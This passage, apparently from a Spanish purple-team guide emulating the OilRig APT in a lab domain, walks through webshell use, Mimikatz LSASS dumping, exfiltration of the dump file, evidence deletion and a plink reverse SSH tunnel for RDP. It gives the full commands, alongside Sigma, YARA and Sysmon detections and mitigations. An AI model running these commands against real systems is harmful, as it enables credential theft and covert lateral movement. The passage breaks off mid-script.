    product: windows
    service: sysmon
    definition: 'EventID 1 - Process Creation'
detection:
    selection_parent:
        ParentImage|endswith: '\w3wp.exe'
    selection_child:
        Image|endswith: '\cmd.exe'
    selection_commands:
        CommandLine|contains:
            - 'whoami'
            - 'ipconfig'
            - 'netstat'
            - 'net user'
            - 'net group'
    condition: selection_parent and selection_child and selection_commands
falsepositives:
    - Scripts administrativos legítimos en IIS (muy raro)
    - Aplicaciones web que ejecutan comandos del sistema (mala práctica)
level: high
tags:
    - attack.discovery
    - attack.t1033
    - attack.t1016
    - attack.t1049
```

**Hunting con PowerShell:**

```powershell
# Buscar accesos a contact.aspx en logs de IIS
$logPath = "C:\inetpub\logs\LogFiles\W3SVC1\"
Get-ChildItem $logPath -Filter "*.log" | ForEach-Object {
    Get-Content $_.FullName | Select-String "contact.aspx" |
    ForEach-Object {
        $fields = $_ -split ' '
        [PSCustomObject]@{
            Date = $fields[0]
            Time = $fields[1]
            ClientIP = $fields[8]
            Method = $fields[3]
            URI = $fields[4]
            UserAgent = ($fields[9..($fields.Length-1)] -join ' ')
        }
    }
} | Where-Object { $_.UserAgent -like '*curl*' -or $_.ClientIP -notlike '10.1.0.*' }
```

##### Estrategias de Mitigación

**Prevención:**

1. **Segmentación de Red**
   - Exchange Server NO debería ser accesible directamente desde Internet
   - Implementar reverse proxy (WAF) para OWA/EWS
   - Regla de firewall:
     ```
     Deny: [Internet] → [10.1.0.6:443]
     Allow: [Internal Network] → [10.1.0.6:443]
     ```

2. **Application Whitelisting en IIS**
   - Denegar ejecución de cmd.exe, powershell.exe desde w3wp.exe
   - Implementar con WDAC (Windows Defender Application Control)
   - Solo permitir procesos esenciales de Exchange

3. **Autenticación Multifactor (MFA)**
   - Requieren MFA para acceso a OWA/EWS
   - Credenciales robadas serían insuficientes
   - Implementar Conditional Access basado en ubicación

4. **File Integrity Monitoring**
   - Detectar creación de archivos .aspx no autorizados
   - Alertar sobre modificaciones en directorio EWS
   - Mantener baseline de archivos legítimos

**Detección:**

1. **EDR en Servidores Críticos**
   - Monitoreo continuo de spawning de procesos desde IIS
   - Behavioral analytics para detectar patrones de webshell
   - Alertas en tiempo real sobre ejecución de cmd.exe desde w3wp.exe

2. **Análisis de Logs de IIS**
   - SIEM ingestion de logs IIS
   - Correlación de User-Agent anómalos
   - Detección de acceso a recursos no estándar

3. **Network Behavior Analytics**
   - Baseline de tráfico normal hacia Exchange
   - Alertas sobre conexiones desde IPs externas
   - Detección de anomalías en patrones de autenticación

**Respuesta:**

1. **Contención Inmediata:**
   - Bloquear IP de atacante (192.168.0.4) en firewall
   - Deshabilitar cuenta de Gosta temporalmente
   - Aislar WATERFALLS de la red si continúa actividad maliciosa

2. **Investigación:**
   - Revisar todos los logs de IIS para identificar comandos ejecutados
   - Examinar Event Logs de Windows para procesos creados
   - Buscar otros archivos sospechosos en directorios web

3. **Erradicación:**
   - Eliminar contact.aspx
   - Escanear en busca de otros webshells
   - Verificar integridad de archivos de Exchange

4. **Recuperación:**
   - Forzar cambio de contraseña de Gosta
   - Revisar y revocar sesiones activas de Gosta
   - Implementar MFA antes de restaurar acceso

---

#### **Paso 6: Volcado de Credenciales Privilegiadas**

##### **Objetivo de la Actividad**

Utilizar Mimikatz en el servidor Exchange (WATERFALLS) para volcar credenciales de memoria LSASS, específicamente obteniendo el hash NTLM del usuario "tous" (administrador SQL), que será utilizado para movimiento lateral hacia el servidor SQL.

##### **Contexto del Escenario**

El reconocimiento del paso anterior reveló la existencia y ubicación del servidor SQL (10.1.0.7). Para acceder a este servidor, los atacantes necesitan credenciales del usuario "tous", quien fue identificado en el Paso 2 como miembro del grupo "SQL Admins".

Dado que el webshell TwoFace ejecuta con privilegios de SYSTEM, los atacantes tienen el nivel de acceso necesario para ejecutar Mimikatz y extraer credenciales de la memoria del proceso LSASS (Local Security Authority Subsystem Service), que almacena credenciales de usuarios que han iniciado sesión en el servidor.

La estrategia implica:
1. Subir Mimikatz al servidor Exchange usando el webshell
2. Ejecutar Mimikatz para volcar credenciales de memoria
3. Guardar la salida en un archivo de texto
4. Exfiltrar el archivo con las credenciales al sistema del atacante
5. Limpiar evidencia eliminando Mimikatz y el archivo de salida

##### **Técnicas MITRE ATT&CK**

**T1105 - Ingress Tool Transfer**
- Subida de Mimikatz (m64.exe) al servidor Exchange vía webshell
- Transferencia de herramienta de ataque desde sistema atacante

**T1003.001 - OS Credential Dumping: LSASS Memory**
- Extracción de credenciales desde memoria del proceso LSASS
- Obtención de hashes NTLM de usuarios autenticados

**T1041 - Exfiltration Over C2 Channel**
- Exfiltración del archivo con credenciales volcadas
- Uso del webshell como canal de exfiltración

**T1070.004 - Indicator Removal on Host: File Deletion**
- Eliminación de Mimikatz y archivo de salida
- Limpieza de artefactos para dificultar análisis forense

##### **Flujo de Ejecución Técnica**

**Paso 1: Subida de Mimikatz al Servidor Exchange**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     -F "upl=f1" \
     -F 'sav=C:\Windows\temp\' \
     -F "vir=false" \
     -F "nen=m64.exe" \
     -F 'f1=@m64.exe' \
     https://10.1.0.6/EWS/contact.aspx
```

**Desglose de parámetros:**
- `-F "upl=f1"`: Indicador para función de upload del webshell
- `-F 'sav=C:\Windows\temp\'`: Directorio de destino donde guardar el archivo
- `-F "vir=false"`: Parámetro de configuración del webshell
- `-F "nen=m64.exe"`: Nuevo nombre para el archivo (Mimikatz)
- `-F 'f1=@m64.exe'`: Archivo local a subir (@ indica archivo desde disco)

**Proceso en el servidor:**
1. El webshell TwoFace recibe la petición POST con multipart/form-data
2. Extrae el archivo subido desde Request.Files["f1"]
3. Lo guarda en `C:\Windows\Temp\m64.exe`
4. Responde con confirmación de subida exitosa

**Ubicación del archivo:**
```
C:\Windows\Temp\m64.exe
```

**Razón de la ubicación:**
- `C:\Windows\Temp\` es un directorio común para archivos temporales
- SYSTEM tiene permisos completos de lectura/escritura
- Es menos sospechoso que ubicaciones de usuario
- Fácil de limpiar posteriormente

**Paso 2: Ejecución de Mimikatz para Volcado de Credenciales**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=C:\Windows\Temp\m64.exe privilege::debug sekurlsa::logonPasswords exit 1> C:\Windows\Temp\01.txt" \
     https://10.1.0.6/ews/contact.aspx
```

**Comando de Mimikatz desglosado:**

1. **`privilege::debug`**
   - Habilita el privilegio SeDebugPrivilege
   - Permite acceder a procesos de otros usuarios
   - Necesario para leer memoria de LSASS
   - **Nota**: En este caso es redundante porque SYSTEM ya tiene este privilegio

2. **`sekurlsa::logonPasswords`**
   - Módulo de Mimikatz que lee credenciales de memoria LSASS
   - Extrae:
     - Nombres de usuario
     - Dominios
     - Hashes NTLM
     - Hashes LM (si están habilitados)
     - Contraseñas en texto claro (si están en memoria)
     - Tickets Kerberos

3. **`exit`**
   - Termina la ejecución de Mimikatz
   - Devuelve control al shell

4. **`1> C:\Windows\Temp\01.txt`**
   - Redirige la salida estándar (stdout) a un archivo
   - Guarda todos los resultados en `01.txt`

**Salida de Mimikatz (ejemplo):**

```
  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # sekurlsa::logonPasswords

Authentication Id : 0 ; 523801 (00000000:0007fda9)
Session           : Interactive from 1
User Name         : tous
Domain            : BOOMBOX
Logon Server      : DISKJOCKEY
Logon Time        : 10/19/2025 2:15:32 PM
SID               : S-1-5-21-3623811015-3361044348-30300820-1106
        msv :
         [00000003] Primary
         * Username : tous
         * Domain   : BOOMBOX
         * NTLM     : 9b7ff4cc0878bee9f099a4a7dc7227c3
         * SHA1     : 8c2e4fc3d8e1b5c9f2a3e4b1d6c7a8f9
        tspkg :
        wdigest :
        kerberos :
         * Username : tous
         * Domain   : BOOMBOX.LOCAL
         * Password : (null)
        ssp :
        credman :

Authentication Id : 0 ; 997 (00000000:000003e5)
Session           : Service from 0
User Name         : WATERFALLS$
Domain            : BOOMBOX
...
```

**Hallazgo crítico:**
```
User Name : tous
Domain    : BOOMBOX
NTLM      : 9b7ff4cc0878bee9f099a4a7dc7227c3
```

Este hash NTLM es la clave para el próximo paso (pass-the-hash).

**Paso 3: Exfiltración del Archivo con Credenciales**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     -o 01.txt \
     --data 'don=c:\windows\temp\01.txt' \
     https://10.1.0.6/EWS/contact.aspx
```

**Desglose:**
- `-o 01.txt`: Guardar respuesta en archivo local `01.txt`
- `--data 'don=c:\windows\temp\01.txt'`: Parámetro de "download" del webshell

**Proceso:**
1. El webshell TwoFace lee `C:\Windows\Temp\01.txt`
2. Envía el contenido como respuesta HTTP
3. `curl` guarda la respuesta en `./01.txt` localmente

**Verificación de la exfiltración:**

En la plataforma de ataque Linux:

```bash
cat 01.txt
```

El operador revisa el archivo y confirma la presencia del hash NTLM de "tous".

**Paso 4: Limpieza de Evidencia**

```bash
curl --http1.1 --ntlm -u 'boombox\gosta:d0ntGoCH4$ingW8trfalls' \
     -k -X POST \
     --data "pro=cmd.exe" \
     --data "cmd=del C:\windows\temp\01.txt C:\windows\temp\m64.exe" \
     https://10.1.0.6/ews/contact.aspx
```

**Archivos eliminados:**
- `C:\Windows\Temp\m64.exe` (Mimikatz)
- `C:\Windows\Temp\01.txt` (salida con credenciales)

**Propósito:**
- Reducir footprint forense
- Dificultar reconstrucción del ataque
- Eliminar evidencia de herramientas utilizadas

**Limitaciones de la limpieza:**
- Los archivos pueden recuperarse con herramientas forenses
- El journal NTFS mantiene registros de creación/eliminación
- Event Logs pueden contener evidencia de ejecución
- Mimikatz deja rastros en memoria temporalmente

##### **Análisis Técnico: Mimikatz**

**¿Qué es Mimikatz?**

Mimikatz es una herramienta de código abierto desarrollada por Benjamin Delpy que permite extraer credenciales de Windows desde múltiples fuentes. Aunque tiene usos legítimos en auditorías de seguridad, es ampliamente utilizada por atacantes para robo de credenciales.

**Funcionamiento Técnico:**

1. **Acceso a LSASS:**
   - LSASS (lsass.exe) gestiona autenticación en Windows
   - Almacena credenciales en memoria para Single Sign-On
   - Mimikatz abre un handle al proceso LSASS usando OpenProcess()
   - Requiere SeDebugPrivilege para acceder a procesos protegidos

2. **Lectura de Memoria:**
   - Utiliza ReadProcessMemory() para leer memoria de LSASS
   - Busca estructuras de datos específicas de autenticación
   - Parsea diferentes providers (MSV1_0, Kerberos, WDigest, etc.)

3. **Extracción de Credenciales:**
   - **Hashes NTLM**: Hash de una vía de la contraseña
   - **Hashes LM**: Esquema legacy, raramente usado
   - **Tickets Kerberos**: TGT y TGS para autenticación
   - **Contraseñas en texto claro**: Si WDigest está habilitado

**Capacidades Clave de Mimikatz:**

| Módulo | Función | Uso en este Ataque |
|--------|---------|-------------------|
| `privilege::debug` | Habilita SeDebugPrivilege | Sí (aunque redundante) |
| `sekurlsa::logonPasswords` | Extrae credenciales de LSASS | Sí (principal) |
| `sekurlsa::pth` | Pass-the-hash | Sí (Paso 8) |
| `lsadump::sam` | Vuelca SAM database | No |
| `kerberos::golden` | Crea Golden Tickets | No |

**Detección de Mimikatz:**

Mimikatz es una de las herramientas más detectadas por soluciones de seguridad:

1. **Firma binaria**: EDR/AV detectan el ejecutable
2. **Strings en memoria**: Cadenas únicas de Mimikatz
3. **Comportamiento**: Acceso a memoria de LSASS es altamente sospechoso

**Por qué funciona en este escenario:**
- Windows Defender deshabilitado en el entorno de evaluación
- EDR no desplegado o deshabilitado
- Ejecución con privilegios de SYSTEM

##### **Oportunidades de Detección**

**Nivel de Proceso:**

1. **Acceso a Memoria de LSASS**
   ```
   Event ID: 10 (Sysmon - ProcessAccess)
   SourceImage: C:\Windows\Temp\m64.exe
   TargetImage: C:\Windows\System32\lsass.exe
   GrantedAccess: 0x1010 (PROCESS_QUERY_INFORMATION | PROCESS_VM_READ)
   CallTrace: [Suspicious]
   ```

   **Importancia crítica:**
   - Acceso a memoria de LSASS es indicador de robo de credenciales
   - Muy pocos procesos legítimos acceden a LSASS
   - Combinación de proceso no firmado + acceso a LSASS = alta confianza de malicia

2. **Ejecución de Ejecutable No Firmado en Windows\Temp**
   ```
   Process: C:\Windows\Temp\m64.exe
   Signed: False
   Parent: cmd.exe
   GrandParent: w3wp.exe
   User: NT AUTHORITY\SYSTEM
   ```

**Reglas de Detección Específicas:**

```yaml
# Sigma Rule: Mimikatz Detection via LSASS Access
title: Credential Dumping via LSASS Memory Access
status: stable
description: Detecta acceso sospechoso a memoria de LSASS, típico de Mimikatz
logsource:
    product: windows
    service: sysmon
    definition: 'EventID 10 - ProcessAccess'
detection:
    selection:
        TargetImage|endswith: '\lsass.exe'
        GrantedAccess|contains:
            - '0x1010'
            - '0x1410'
            - '0x147a'
    filter_legit:
        SourceImage|startswith:
            - 'C:\Program Files\'
            - 'C:\Windows\System32\'
    condition: selection and not filter_legit
falsepositives:
    - Herramientas legítimas de seguridad (AV, EDR)
    - Software de gestión de contraseñas corporativo
level: critical
tags:
    - attack.credential_access
    - attack.t1003.001
```

**Nivel de Archivo:**

1. **Creación de Archivo Sospechoso**
   ```
   Event ID: 11 (Sysmon - FileCreate)
   Image: C:\Windows\System32\inetsrv\w3wp.exe
   TargetFilename: C:\Windows\Temp\m64.exe
   CreationUtcTime: 2025-10-19 14:45:23
   ```

2. **Creación de Archivo de Salida**
   ```
   Event ID: 11 (Sysmon - FileCreate)
   Image: C:\Windows\Temp\m64.exe
   TargetFilename: C:\Windows\Temp\01.txt
   ```

**Detección basada en Yara:**

```yara
rule Mimikatz_Binary {
    meta:
        description = "Detecta binarios de Mimikatz"
        author = "Security Team"
        date = "2025-10-19"
    strings:
        $str1 = "gentilkiwi" ascii wide
        $str2 = "sekurlsa::logonpasswords" ascii wide nocase
        $str3 = "privilege::debug" ascii wide nocase
        $str4 = "benjamin@gentilkiwi.com" ascii wide
    condition:
        2 of them
}
```

**Nivel de Red:**

1. **Upload de Archivo Ejecutable**
   ```
   IIS Log Entry:
   POST /EWS/contact.aspx - 443
   Content-Type: multipart/form-data
   Content-Length: 1285632
   Status: 200
   ```

   - Tamaño de ~1.2MB consistente con Mimikatz
   - Content-Type multipart indica upload de archivo

2. **Download de Archivo de Texto**
   ```
   IIS Log Entry:
   POST /EWS/contact.aspx - 443
   Response-Size: 45823
   Content-Type: application/octet-stream
   ```

**EDR/Behavioral Analytics:**

Secuencia de eventos que indica robo de credenciales:

```
1. [14:45:23] w3wp.exe → Escribe → C:\Windows\Temp\m64.exe
2. [14:45:45] cmd.exe (parent: w3wp.exe) → Ejecuta → m64.exe
3. [14:45:46] m64.exe → Accede memoria → lsass.exe
4. [14:45:47] m64.exe → Escribe → C:\Windows\Temp\01.txt
5. [14:45:50] w3wp.exe → Lee → C:\Windows\Temp\01.txt
6. [14:46:12] cmd.exe → Elimina → m64.exe, 01.txt
```

**Hunting con PowerShell:**

```powershell
# Buscar ejecuciones desde Windows\Temp con acceso a LSASS
Get-WinEvent -FilterHashtable @{
    LogName='Microsoft-Windows-Sysmon/Operational'
    ID=10  # ProcessAccess
} | Where-Object {
    $_.Properties[4].Value -like '*lsass.exe*'
} | ForEach-Object {
    [PSCustomObject]@{
        TimeCreated = $_.TimeCreated
        SourceImage = $_.Properties[2].Value
        TargetImage = $_.Properties[4].Value
        GrantedAccess = $_.Properties[7].Value
    }
} | Where-Object {
    $_.SourceImage -like '*\Temp\*' -or
    $_.SourceImage -like '*\AppData\*'
}
```

##### **Estrategias de Mitigación**

**Prevención:**

1. **Credential Guard (Windows 10/Server 2016+)**
   - Aísla LSASS usando Virtualization-Based Security (VBS)
   - Credenciales almacenadas en proceso protegido (LSAIso)
   - Mimikatz no puede acceder a credenciales protegidas
   - Habilitación vía GPO:
     ```
     Computer Configuration → Administrative Templates →
     System → Device Guard →
     Turn On Virtualization Based Security → Enabled
     Credential Guard Configuration → Enabled with UEFI lock
     ```

2. **LSA Protection**
   - Marca LSASS como proceso protegido
   - Drivers sin firma no pueden inyectar código
   - Habilitación via Registry:
     ```
     HKLM\SYSTEM\CurrentControlSet\Control\Lsa
     RunAsPPL = dword:00000001
     ```

3. **Deshabilitar WDigest**
   - WDigest almacena contraseñas reversibles en memoria
   - Deshabilitar para prevenir extracción de texto claro
   - Registry:
     ```
     HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest
     UseLogonCredential = dword:00000000
     ```

4. **Application Whitelisting**
   - Solo permitir ejecutables firmados
   - Denegar ejecución desde %TEMP%, %APPDATA%
   - WDAC/AppLocker con modo enforcement

5. **Privilegios Mínimos**
   - Reducir número de usuarios con privilegios administrativos
   - Cuentas de servicio no deberían ser administradores
   - Implementar Just-In-Time (JIT) admin access

**Detección:**

1. **EDR con Protección de Credenciales**
   - Monitoreo de acceso a LSASS en tiempo real
   - Alertas automáticas sobre patrones de Mimikatz
   - Behavioral analytics para detectar secuencias de ataque

2. **Sysmon con Configuración Robusta**
   - Event ID 10 (ProcessAccess) para LSASS
   - Event ID 11 (FileCreate) para ejecutables en %TEMP%
   - Correlación de eventos para detectar cadenas de ataque

3. **Auditoría de Eventos de Windows**
   - Event ID 4656 (Handle to Object Requested)
   - Event ID 4663 (Attempt to Access Object)
   - Filtrar por objeto: lsass.exe

**Respuesta:**

1. **Contención Inmediata:**
   - Forzar cambio inmediato de contraseña de "tous"
   - Deshabilitar temporalmente cuenta de "tous"
   - Aislar WATERFALLS de la red
   - Terminar todas las sesiones activas de "tous"

2. **Análisis Forense:**
   - Adquirir memoria RAM del servidor Exchange
   - Buscar rastros de Mimikatz en memoria
   - Analizar logs de eventos para reconstruir timeline
   - Revisar archivos eliminados en journal NTFS

3. **Erradicación:**
   - Eliminar webshell (contact.aspx)
   - Escanear en busca de otros implantes
   - Verificar integridad de archivos del sistema

4. **Recuperación:**
   - Implementar Credential Guard antes de restaurar servicio
   - Habilitar LSA Protection
   - Forzar rotación de contraseñas de todas las cuentas privilegiadas
   - Implementar MFA para cuentas administrativas

5. **Lecciones Aprendidas:**
   - Credential Guard habría prevenido este ataque
   - Monitoring de acceso a LSASS es crítico
   - Webshells en servidores críticos requieren respuesta inmediata

---

#### **Paso 7: Movimiento Lateral a EWS vía Túnel RDP**

##### **Objetivo de la Actividad**

Establecer acceso interactivo al servidor Exchange (WATERFALLS) mediante un túnel SSH reverso que permite conexión RDP desde la plataforma de ataque Linux, proporcionando a los atacantes una sesión gráfica completa en el servidor como usuario Gosta.

##### **Contexto del Escenario**

Hasta este punto, los atacantes han operado principalmente a través de línea de comandos usando SideTwist y el webshell TwoFace. Sin embargo, para las operaciones más complejas del Paso 8 (que involucran GUI, pass-the-hash interactivo con Mimikatz, y PsExec), los atacantes necesitan una sesión interactiva completa en el servidor Exchange.

El desafío es que WATERFALLS (10.1.0.6) está en una red interna y no es directamente accesible vía RDP desde la plataforma de ataque (192.168.0.4). Para resolver esto, OilRig utiliza una técnica de tunneling que:

1. Descarga plink.exe (cliente SSH de PuTTY) en THEBLOCK
2. Establece un túnel SSH reverso desde THEBLOCK hacia el servidor atacante
3. Redirige el puerto RDP de WATERFALLS (3389) al puerto local 13389 en el servidor atacante
4. Permite RDP al servidor atacante localhost:13389, que se redirige a WATERFALLS:3389

Esta técnica es común en operaciones APT porque:
- Elude firewalls que bloquean conexiones entrantes
- Usa SSH (puerto 22) que frecuentemente está permitido saliente
- Proporciona cifrado adicional del tráfico RDP
- Permite acceso a sistemas internos desde Internet

##### **Técnicas MITRE ATT&CK**

**T1105 - Ingress Tool Transfer**
- Descarga de plink.exe (herramienta SSH) desde C2
- Transferencia de herramienta para establecer túnel

**T1572 - Protocol Tunneling**
- Establecimiento de túnel SSH reverso
- Encapsulación de tráfico RDP dentro de SSH
- Técnica para evadir controles de red

**T1078.002 - Valid Accounts: Domain Accounts**
- Uso de credenciales legítimas de Gosta
- Autenticación RDP con cuenta de dominio comprometida

**T1021.001 - Remote Services: Remote Desktop Protocol**
- Conexión RDP al servidor Exchange
- Acceso interactivo al servidor objetivo

##### **Flujo de Ejecución Técnica**

**Paso 1: Descarga de Plink a THEBLOCK**

Desde la plataforma de ataque Linux, el operador envía comando a SideTwist:

```bash
./evalsC2client.py --set-task goTb '102 c:\users\public\downloads\plink.exe|plink.exe'
```

**Desglose:**
- `102`: Código para descarga de archivo en SideTwist
- `c:\users\public\downloads\plink.exe`: Ruta de destino
- `|plink.exe`: Archivo en servidor C2 a descargar

**Proceso:**
1. SideTwist recibe tarea en próximo beacon (máx. 5 minutos)
2. Descarga plink.exe desde C2 vía HTTP GET
3. Descifra el archivo (XOR)
4. Guarda en `C:\Users\Public\Downloads\plink.exe`

**Nota de implementación CALDERA:**
En la emulación con CALDERA, plink.exe se descarga primero al directorio del agente y luego se copia a Downloads. El resultado final es el mismo.

**¿Qué es Plink?**

Plink (PuTTY Link) es un cliente SSH de línea de comandos que forma parte de la suite PuTTY. Características:
- Cliente SSH para Windows
- Soporta port forwarding (local y remoto)
- No requiere instalación (ejecutable standalone)
- Ampliamente usado de forma legítima (difícil de bloquear)

**Paso 2: Establecimiento del Túnel SSH Reverso**

```bash
./evalsC2client.py --set-task goTb '101 echo y | c:\users\public\downloads\plink.exe -ssh -N -R 192.168.0.4:13389:10.1.0.6:3389 -l saka -pw "$ceKa#zU$Uc4^9yZ" 192.168.0.4'
```

**Desglose del comando:**

1. **`echo y |`**
   - Pipe "y" a plink para aceptar automáticamente host key
   - Primera conexión a servidor SSH requiere confirmación de host key
   - Evita interacción manual

2. **`plink.exe`**
   - Ejecutable de cliente SSH

3. **`-ssh`**
   - Forzar protocolo SSH (vs. telnet/rlogin)

4. **`-N`**
   - No ejecutar comando remoto
   - Solo establecer túnel (no shell interactivo)

5. **`-R 192.168.0.4:13389:10.1.0.6:3389`**
   - **Tipo**: Reverse (Remote) Port Forward
   - **Formato**: `-R [bind_address:]port:host:hostport`
   - **Desglose**:
     - `192.168.0.4:13389`: En el servidor SSH, escuchar en esta IP/puerto
     - `10.1.0.6:3389`: Conectar a esta IP/puerto desde el cliente
   - **Efecto**: Tráfico a 192.168.0.4:13389 se redirige a 10.1.0.6:3389

6. **`-l saka`**
   - Login username para servidor SSH
   - Usuario en la plataforma de ataque Linux

7. **`-pw "$ceKa#zU$Uc4^9yZ"`**
   - Contraseña para el usuario saka
   - Evita prompt interactivo de contraseña

8. **`192.168.0.4`**
   - Dirección del servidor SSH (plataforma de ataque)

**Ejecución en Background:**

En la implementación CALDERA, el comando se ejecuta con `exec-background`, lo que significa:
- El proceso plink permanece en ejecución
- No bloquea el agente para recibir nuevos comandos
- Mantiene el túnel activo hasta ser terminado explícitamente

**Diagrama del Túnel:**

```
[Atacante: 192.168.0.4]              [THEBLOCK: 10.1.0.5]         [WATERFALLS: 10.1.0.6]
        |                                     |                             |
   [SSH Server]  <---SSH Connection---  [Plink Cliente]                    |
   Port: 22                                   |                             |
        |                                     |                             |
   [Listener]                         [Port Forward]  ----RDP---->   [RDP Server]
   localhost:13389                                                   Port: 3389
```

**Flujo de datos:**
1. Usuario en 192.168.0.4 conecta a localhost:13389
2. SSH server redirige a través del túnel SSH
3. Plink en THEBLOCK recibe y envía a 10.1.0.6:3389
4. WATERFALLS responde via el mismo camino inverso

**Paso 3: Verificación del Túnel**

En la plataforma de ataque Linux:

```bash
netstat -antulp | grep 13389
```

**Salida esperada:**
```
tcp        0      0 127.0.0.1:13389         0.0.0.0:*               LISTEN      2456/sshd: saka
```

**Interpretación:**
- El puerto 13389 está en escucha
- Proceso: sshd (servidor SSH)
- Usuario: saka
- Solo escucha en 127.0.0.1 (localhost) por seguridad

**Paso 4: Conexión RDP a través del Túnel**

```bash
xfreerdp /u:'boombox\gosta' /p:'d0ntGoCH4$ingW8trfalls' /v:localhost:13389
```

**Desglose:**
- `xfreerdp`: Cliente RDP para Linux (FreeRDP)
- `/u:'boombox\gosta'`: Usuario de dominio
- `/p:'d0ntGoCH4$ingW8trfalls'`: Contraseña obtenida en Paso 3
- `/v:localhost:13389`: Conectar a localhost puerto 13389

**Proceso:**
1. xfreerdp inicia conexión RDP a localhost:13389
2. SSH server recibe conexión y la envía a través del túnel
3. Plink en THEBLOCK recibe y conecta a 10.1.0.6:3389
4. WATERFALLS autentica a Gosta
5. Sesión RDP interactiva establecida

**Resultado:**
- El operador tiene sesión GUI completa en WATERFALLS
- Ejecutando como usuario BOOMBOX\gosta
- Puede abrir Command Prompt, PowerShell, GUI tools
- Preparado para operaciones del Paso 8

**Nota de implementación CALDERA:**

En la versión CALDERA, se añaden parámetros adicionales:
- `exec-background`: Ejecuta plink en background
- `-no-antispoof`: Evita prompts de confirmación de host key
- `/cert-ignore`: Ignora advertencias de certificado RDP

##### **Análisis Técnico: SSH Tunneling**

**Tipos de Port Forwarding:**

1. **Local Forward (`-L`):**
   ```
   plink -L local_port:remote_host:remote_port ssh_server
   ```
   - Escucha en puerto local
   - Redirige a remote_host:remote_port vía ssh_server

2. **Remote Forward (`-R`) - Usado aquí:**
   ```
   plink -R remote_port:local_host:local_port ssh_server
   ```
   - Escucha en ssh_server:remote_port
   - Redirige a local_host:local_port desde cliente

3. **Dynamic Forward (`-D`):**
   ```
   plink -D local_port ssh_server
   ```
   - Crea SOCKS proxy en puerto local

**Ventajas Operacionales del Reverse Tunnel:**

1. **Evasión de Firewall:**
   - Conexión saliente desde red interna (permitido)
   - No requiere puerto entrante abierto
   - Evade reglas de firewall típicas

2. **Persistencia:**
   - Túnel se mantiene mientras plink esté ejecutando
   - Reconecta automáticamente si la conexión cae (con parámetros adicionales)

3. **Cifrado:**
   - Tráfico RDP viaja dentro de SSH
   - Dificulta inspección de tráfico
   - Evade sistemas de prevención de intrusiones (IPS)

4. **Flexibilidad:**
   - Puede redirigir cualquier puerto/protocolo
   - Permite acceso a múltiples servicios internos

**Detección de Tunneling:**

El tunneling SSH es difícil de detectar pero hay indicadores:

1. **Conexiones SSH Salientes Anómalas:**
   - Workstation conectando a IPs externas via SSH
   - Puerto 22 saliente desde sistemas no-administrativos

2. **Procesos Sospechosos:**
   - plink.exe ejecutando desde ubicaciones inusuales
   - Línea de comandos con parámetros de port forwarding

3. **Patrones de Tráfico:**
   - Volumen alto de datos en conexión SSH
   - Patrones de tráfico RDP dentro de SSH

##### **Oportunidades de Detección**

**Nivel de Proceso:**

1. **Ejecución de Plink.exe**
   ```
   Event ID: 4688 (Process Creation)
   Process: C:\Users\Public\Downloads\plink.exe
   Command Line: plink.exe -ssh -N -R 192.168.0.4:13389:10.1.0.6:3389...
   Parent Process: SystemFailureReporter.exe
   User: BOOMBOX\gosta
   ```

**Indicadores clave:**
- Proceso plink.exe desde ubicación inusual
- Parámetros `-R` indican reverse tunnel
- Padre es proceso sospechoso (implante)

2. **Detección con Sysmon:**

```xml
<Sysmon>
  <EventFiltering>
    <RuleGroup name="SSH Tunneling Detection">
      <ProcessCreate onmatch="include">
        <Image condition="end with">plink.exe</Image>
        <CommandLine condition="contains">-R</CommandLine>
      </ProcessCreate>

      <ProcessCreate onmatch="include">
        <Image condition="end with">plink.exe</Image>
        <CommandLine condition="contains">-L</CommandLine>
      </ProcessCreate>

      <ProcessCreate onmatch="include">
        <Image condition="end with">plink.exe</Image>
        <CommandLine condition="contains">-D</CommandLine>
      </ProcessCreate>
    </RuleGroup>
  </EventFiltering>
</Sysmon>
```

**Nivel de Red:**

1. **Conexión SSH Saliente desde Workstation**
   ```
   Source: 10.1.0.5 (THEBLOCK)
   Destination: 192.168.0.4:22
   Protocol: SSH
   State: ESTABLISHED
   ```

   **Anómalo porque:**
   - Workstations no suelen hacer SSH a Internet
   - IP externa (192.168.0.4 no está en 10.1.0.0/24)
   - Conexión de larga duración

2. **Firma de Tráfico SSH:**
   ```
   Protocolo: TCP
   Puerto: 22
   Payload: SSH-2.0-PuTTY_Release_0.77
   ```

   - Identifica cliente específico (PuTTY/Plink)

3. **Análisis de Volumen de Tráfico:**
   - Tráfico SSH con volumen alto persistente
   - Patrón de tráfico consistente con RDP encapsulado
   - Flujo bidireccional significativo (no solo comandos)

**Reglas de Detección:**

```yaml
# Sigma Rule: Plink SSH Tunneling
title: SSH Tunneling con Plink
status: experimental
description: Detecta uso de plink para establecer túneles SSH
logsource:
    product: windows
    category: process_creation
detection:
    selection_process:
        Image|endswith: '\plink.exe'
    selection_params:
        CommandLine|contains:
            - ' -R '
            - ' -L '
            - ' -D '
    condition: selection_process and selection_params
falsepositives:
    - Administradores legítimos usando túneles SSH
    - Scripts de automatización corporativos
level: high
tags:
    - attack.command_and_control
    - attack.t1572
```

**Hunting con PowerShell:**

```powershell
# Buscar procesos plink con parámetros de tunneling
Get-WinEvent -FilterHashtable @{
    LogName='Security'
    ID=4688  # Process Creation
} | Where-Object {
    $_.Properties[5].Value -like '*plink.exe*' -and
    ($_.Properties[8].Value -like '* -R *' -or
     $_.Properties[8].Value -like '* -L *' -or
     $_.Properties[8].Value -like '* -D *')
} | ForEach-Object {
    [PSCustomObject]@{
        Time = $_.TimeCreated
        User = $_.Properties[1].Value
        Process = $_.Properties[5].Value
        CommandLine = $_.Properties[8].Value
    }
}

# Buscar conexiones SSH salientes
Get-NetTCPConnection | Where-Object {
    $_.RemotePort -eq 22 -and
